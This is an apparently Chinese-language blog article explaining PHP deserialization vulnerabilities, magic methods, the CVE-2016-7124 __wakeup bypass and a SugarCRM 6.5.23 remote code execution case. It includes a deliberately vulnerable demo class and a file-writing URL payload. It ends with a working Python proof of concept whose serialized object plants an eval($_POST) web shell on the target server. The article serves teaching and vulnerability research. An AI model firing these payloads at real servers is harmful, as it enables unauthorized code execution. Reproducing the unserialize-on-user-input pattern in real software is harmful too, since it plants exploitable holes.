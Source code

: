 ```yaml
---
layout: page
title: PHP deserialization vulnerability analysis
---
```



* Auth：[Cryin'](https://github.com/Cryin/Paper)

### 序列化与反序列化

序列化和反序列化操作会使程序存储或传输PHP 的值或对象更加便利且不丢失其类型和结构。PHP 序列化函数serialize(),其作用是将对象转换为字符串，此字符串包含了表示value 的字节流，可以存储于任何地方；而反序列化函数unserialize(),恰好就是序列化的逆过程,反序列化对单一的已序列化的变量进行操作，将其转换回对象供程序使用。在PHP 序列化及反序列化函数官方介绍中同时也支出，当序列化对象时，PHP 将试图在序列动作之前调用该对象的成员函数__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，这样就允许对象在被序列化之前做任何清除操作。类似的，当使用unserialize() 恢复对象时， 将调用__wakeup()成员函数。

### 魔术方法
PHP 将所有以__（两个下划线）开头的类方法保留为魔术方法。诸如:

```php
__construct()，
__destruct()，
__call()，
__callStatic()，
__get()，
__set()，
__isset()，
__unset()，
__sleep()，
__wakeup()，
__toString()，
__invoke()，
__set_state()，
__clone()，
__debugInfo()
```

等方法在PHP 中被称为" 魔术方法" （ Magic methods ） 。其中__construct() ，__destruct()分别为构造函数和析构函数，在对象创建和销毁时分别会被自动调用。而正如
上面所说__sleep()及__wakeup()分别会在对象被序列化、反序列化时自动调用。为了更清楚了解序列化、反序列化以及魔术方法的具体作用。看个实例:
```php
<?php
class file {
#private $data="foo\n";
#private $filename = "D:\software\phpStudy\WWW\iast\serialized.txt";
public function __wakeup(){
$this->saveinfo($this->filename,$this->data);
print "__wakeup\r\n";
print '<BR>';
}
function file($in_filename="unnamed",$in_data="file")
{
$this->filename = $in_filename;
$this->data = $in_data;
}
function getname() {
return $this->filename;
}
public function saveinfo($filename,$data) {
file_put_contents($filename,$data);
}
}
$testfile = new file($_GET['filename'],$_GET['data']);
//用serialize 函数将这个实例转化为一个序列化的字符串
$testfiledisc = serialize($testfile);
print $testfiledisc;
print '<BR>';
//在此注销这个类
unset($testfile);
//在这里用unserialize() 还原已经序列化的对象
print "unserialize\r\n";
print '<BR>';
$fileuns = unserialize($testfiledisc);
//此时的$fileuns 已经是前面的$testfile 对象了
$filename = $fileuns->getname();
//这个类此时无需实例化可以继续使用,而且属性和值都是保持在序列化之前的状态
print "The file name is ==> $filename<br>";
print '<BR>';
?>
```
执行上述代码，如图所示: 

![Jietu20181227-221418.jpg](https://i.loli.net/2018/12/27/5c24df773df16.jpg)

### PHP 反序列化漏洞原理

清楚了反序列化及魔术方法，可以了解到，反序列化漏洞利用原理或者说出现该类漏洞需要具备的条件如下:

* 1、反序列化变量可控；
* 2、程序上下文已定义类存在__wakeup()等魔术方法；
* 3、该魔术方法中调用了系统命令执行、文件操作等高危函数且引入了可控反序列化对象的相关属性。

如上面示例代码所示，在file 类中实现了__wakeup 函数并调用了saveinfo 方法，该方法使用file_put_contents 将反序列化后得到的对象的文件名及文件内容属性写如文件。
而filename 及data 变量通过$_GET 获取。这样如果输入形如:
```
unserialize.php?filename=D:\software\phpStudy\WWW\iast\serialized.php&data=
<?php%20phpinfo()?>
```
则可以在程序目录创建serialized.php 文件并写入phpinfo 等执行任意代码。

### 典型案例

SugarCRM 在其<=6.5.23 的版本中存在反序列化漏洞，程序对攻击者恶意构造的序列化数据进行了反序列化的处理，从而使攻击者可以在未授权状态下执行任意代码。这个漏洞可以说是php 反序列化操作的最佳反面教程，讲述了使用反序列化不当，造成可利用魔术方法进行RCE。

漏洞文件service/core/REST/SugarRestSerialize.php 第67 行：

![Jietu20181227-221658.jpg](https://i.loli.net/2018/12/27/5c24df793bf23.jpg)

可以看到rest_data 参数可控，且传入了反序列化函数sugar_unserialize 中。在sugar_unserialize 函数中(include/utils.php 第5039 行开始)，可以看到在反序列化前，对输入参数进行了检查：

![Jietu20181227-221716.jpg](https://i.loli.net/2018/12/27/5c24df777248a.jpg)

该正则检查主要是检测参数是不是序列化后的对象，如：

![Jietu20181227-221732.jpg](https://i.loli.net/2018/12/27/5c24df78027f6.jpg)

然而由于正则不够严谨，我们可以在对象长度前加一个+ 号，即"o:14 -> o:+14"，即可绕过这层检测，从而使得我们可控的数据传入unserialize 函数。序列化参数可控，接下来就是找程序上下文已定义的类中存在可利用的__wakeup 等魔术方法了，在include/SugarCache/SugarCacheFile.php 文件中可以看到__destruct 魔术方
法，且该函数中有文件写入操作。

![Jietu20181227-221748.jpg](https://i.loli.net/2018/12/27/5c24df790da91.jpg)

在sugar_file_put_contents 函数中，调用了file_put_contents 函数，且没有对文件名及文件内容进行检查。但是主意到在反序列化函数调用时会先触发__wakeup 函数而后才会调用析构函数__destruct，但在__wakeup 函数中将对象所有属性值都置空了。所以至此虽然反序列化对象可控，但输入的属性却被清空了。但有一个有意思的漏洞CVE-2016-7124,反序列化一个异常对象时会绕过__wakeup 函数执行。就是当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup 的执行。如下代码:

```php
<?php
class test{
var $wakeupbypass;
public function __destruct(){
$this->wakeupbypass = "*__destruct<br />";
echo $this->wakeupbypass;
echo "__destruct OK!<br />";
}
public function __wakeup(){
$this->wakeupbypass = "*__wakeup<br />";
echo $this->wakeupbypass;
echo "__wakeup OK!<br />";
}
}
#$a = new test();
#echo serialize($a);
$payload = 'O:4:"test":1:{s:7:"wakeupbypass";N;}';
$payload1 = 'O:4:"test":2:{s:7:"wakeupbypass";N;}';
#$abc = unserialize($payload);
$abc1 = unserialize($payload1);
?>
```
在浏览器访问该页面可以看到wakeup 并没有执行。
![Jietu20181227-221810.jpg](https://i.loli.net/2018/12/27/5c24df770715b.jpg)

最后，生成序列化的payload，并编写poc 如下:
```python
#!/usr/bin/env python
# encoding:utf-8
import requests
class Sugarcrm():
def poctest(self):
url = 'http://10.65.10.195/sugarcrm_dev-6.5.23/service/v4/rest.php'
data = {
'method': 'login',
'input_type': 'Serialize',
'rest_data':
'O:+14:"SugarCacheFile":23:{S:17:"\\00*\\00_cacheFileName";s:15:"../custom/1.php";S:1
6:"\\00*\\00_cacheChanged";b:1;S:14:"\\00*\\00_localStore";a:1:{i:0;s:29:"&lt;?php
eval($_POST[\'HHH\']); ?&gt;";}}',
}
requests.post(url, data=data)
if __name__ == '__main__':
test = Sugarcrm()
test.poctest()
```
执行脚本可生成shell：http://10.65.10.195/sugarcrm_dev-6.5.23/custom/1.php ，关于典型的PHP 反序列化漏洞还可以参考vBulletin 5、Joomla 的反序列化远程代码执行漏洞。详见参考链接。

### 参考
* [1] http://php.net/manual/zh/function.serialize.php
* [2] http://bobao.360.cn/learning/detail/3193.html
* [3] http://www.freebuf.com/vuls/80293.html
* [4] https://codeload.github.com/sugarcrm/sugarcrm_dev/tar.gz/6.5.23
* [5] http://bobao.360.cn/learning/detail/3020.html
* [6] https://bugs.php.net/bug.php?id=72663
* [7] http://blog.nsfocus.net/vbulletin-5-rce-vulnerability/
